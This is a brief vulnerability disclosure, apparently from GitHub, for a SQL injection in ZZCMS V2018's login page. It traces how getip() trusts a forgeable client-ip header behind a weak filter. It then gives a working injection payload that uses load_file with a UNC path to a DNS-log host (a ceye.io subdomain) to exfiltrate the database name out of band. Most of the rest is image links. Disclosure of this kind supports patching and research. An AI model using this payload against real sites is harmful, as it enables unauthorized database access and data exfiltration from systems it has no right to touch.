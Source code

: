 ZZCMS V2018

SQL Injection

code: 
user\checklogin.php
![image](https://github.com/P0rZ9/ZZCMS/blob/master/1.jpg)
Follow up this function：getip()
![image](https://github.com/P0rZ9/ZZCMS/blob/master/2.jpg)
check_isip is a filter function,Follow up:
![image](https://github.com/P0rZ9/ZZCMS/blob/master/3.jpg)
This is just a simple filter. It has nothing to do with it.So,We can forge IP to inject.

show:
At the time of landing,In HTTP head add this： client-ip: 122.122.122.122' and ((select load_file(concat('\\',(select database()),'.xxxx.ceye.io\abc'))))#

You can see that you have successfully obtained the Database name in dnslog platform.
![image](https://github.com/P0rZ9/ZZCMS/blob/master/4.jpg)
